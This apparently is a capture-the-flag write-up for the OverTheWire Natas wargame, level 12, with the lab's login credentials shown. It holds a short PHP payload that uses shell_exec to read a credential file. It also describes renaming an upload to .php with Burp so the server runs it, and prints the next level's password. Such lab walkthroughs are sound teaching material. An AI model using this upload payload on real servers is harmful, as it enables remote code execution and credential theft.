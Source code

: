 # OverTheWire Wargames

## Natas Level 11 --> Level 12

**Username:** natas12

**Password:** EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 

**URL:**      http://natas12.natas.labs.overthewire.org

### Solution
* Open inspect, there is textbox take a background color code and button send us to a page contain source code
* Open source code it generate random path with extention taken from requests (default "v3id13wvte.jpg") to uploaded file, then put it in upload folder 
* Write php script echo the password from pass folder
```php
<?php
  echo shell_exec("cat /etc/natas_webpass/natas13");
?>
```
* Upload the script then intercept requests with burp to change filename ext to php to execute script onclick
* You got the password!!


### Natas13 Password
>  jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
